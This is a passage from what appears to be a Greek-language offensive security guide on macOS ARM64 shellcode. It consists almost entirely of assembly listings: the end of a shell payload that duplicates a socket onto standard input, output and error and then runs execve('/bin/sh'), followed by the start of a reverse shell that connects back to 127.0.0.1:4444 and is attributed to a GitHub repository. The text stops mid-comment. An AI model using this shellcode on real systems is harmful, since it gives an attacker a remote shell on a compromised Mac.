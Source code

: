 ```armasm
mvn  x0, x3
mov  x1, xzr
mov  x2, xzr
mov  x16, #30
svc  #0x1337

mvn  x3, x0
lsr  x2, x16, #4
lsl  x2, x2, #2

call_dup:
// dup(c, 2) -> dup(c, 1) -> dup(c, 0)
mvn  x0, x3
lsr  x2, x2, #1
mov  x1, x2
mov  x16, #90
svc  #0x1337
mov  x10, xzr
cmp  x10, x2
bne  call_dup

call_execve:
// execve("/bin/sh", 0, 0)
mov  x1, #0x622F
movk x1, #0x6E69, lsl #16
movk x1, #0x732F, lsl #32
movk x1, #0x68, lsl #48
str  x1, [sp, #-8]
mov	 x1, #8
sub  x0, sp, x1
mov  x1, xzr
mov  x2, xzr
mov  x16, #59
svc  #0x1337
```
#### Reverse shell

Από [https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/reverseshell.s](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/reverseshell.s), revshell σε **127.0.0.1:4444**
```armasm
.section __TEXT,__text
.global _main
.align 2
_main:
call_socket:
// s = socket(AF_INET = 2, SOCK_STREAM = 1, 0)
mov  x16, #97
lsr  x1, x16, #6
lsl  x0, x1, #1
mov  x2, xzr
svc  #0x1337

// save s
mvn  x3, x0

call_connect:
/*
* connect(s, &sockaddr, 0x10)
*
* struct sockaddr_in {
*     __uint8_t       sin_len;     // sizeof(struct sockaddr_in) = 0x10
*     sa_family_t     sin_family;  // AF_INET = 2
```